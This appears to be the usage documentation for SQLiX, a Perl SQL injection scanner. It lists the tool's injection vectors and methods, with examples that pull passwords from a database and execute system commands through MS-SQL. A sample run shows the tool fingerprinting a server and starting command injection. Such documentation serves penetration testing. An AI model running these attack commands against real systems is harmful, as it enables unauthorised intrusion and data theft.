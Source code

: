 Injection vectors:

`-referer                           Use HTTP referer as a potential injection vector.`
`-agent                             Use HTTP User agent as a potential injection vector.`
`-cookie [COOKIE]                   Use the cookie as a potential injection vector.`
`                                     Cookie value has to be specified and the injection area`
`                                     tagged as "--INJECT_HERE--".`
`                                     Example: -cookie="userID=--INJECT_HERE--"`

Injection methods:

`-all                               Use all the injection methods.`
`-method_taggy                      Use MS-SQL "verbose" error messages method.`
`-method_error                      Use conditional error messages injection method.`
`-method_blind                      Use all blind injection methods.`
`-method_blind_integer              Use integer blind injection method.`
`-method_blind_string               Use string blind injection method.`
`-method_blind_statement            Use statement blind injection method.`
`-method_blind_comment              Use MySQL comment blind injection method.`

Attack modules:

`-exploit                           Exploit the found injection to extract information.`
`                                     by default the version of the database will be retrieved`
`-function [function]               Used with exploit to retrieve a given function value.`
`                                     Example: -function="system_user"`
`                                     Example: -function="(select password from user_table)"`
`-union                             Analyse target for potential UNION attack [MS-SQL only].`

MS-SQL System command injection:

`-cmd [COMMAND]                     System command to be executed.`
`                                     Example: -cmd="dir c:\\"`
`-login [LOGIN]                     MS-SQL login to use if known.`
`-password [PASSWORD]               MS-SQL password to use if known.`

Verbosity:

`-v=[n]                             Verbose mode level`
`                                     v=0 => no output, only results are displayed at the end`
`                                     v=2 => realtime display, provide minimum result info`
`                                     v=5 => debug view [all url,content and headers are displayed]`

# Output example

  - **MS-SQL System command execution**

`$ perl SQLiX.pl -file crawling -all -v=2 -exploit -cmd="dir c:\\"`

`======================================================`
`                   -- SQLiX --`
` © Copyright 2006 Cedric COCHIN, All Rights Reserved.`
`======================================================`

`Analysing URI obtained by flat file [crawling]`
` `<http://www.target.example.com/DocumentDescription-HR.asp?DocID=2>
`      [+] working on DocID`
`            [+] Method: MS-SQL error message`
`                  [FOUND] MS-SQL error message (implicite without quotes)`
`                  [FOUND] function [@@version]:`
`                          Microsoft SQL Server  2000 - 8.00.534 (Intel X86) `
`                                 Nov 19 2001 13:23:50 `
`                                 Copyright (c) 1988-2000 Microsoft Corporation`
`                                 Personal Edition on Windows NT 5.0 (Build 2195: Service Pack 4)`
`                  [INFO] System command injector:`
`                  [INFO] Current database: HR`
`                  [INFO] We are not sysadmin for now`